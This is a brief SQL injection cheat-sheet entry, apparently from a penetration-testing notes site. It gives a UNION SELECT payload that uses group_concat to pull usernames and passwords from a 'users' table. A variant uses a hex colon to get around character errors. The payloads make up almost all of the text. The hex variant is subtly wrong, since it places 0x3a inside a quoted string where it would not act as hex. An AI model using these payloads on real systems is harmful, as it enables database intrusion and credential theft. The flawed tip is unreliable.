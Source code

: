 # Special case hexadecimal ":"  0x3a

## If there is an error trying to include ":" in for example this instruction:&#x20;

' union select NULL,group\_concat(username,';',password) from users-- -\
\
Try to use instead hexadecimal representation:\
\
' union select NULL,group\_concat(username,';0x3a',password) from users-- -
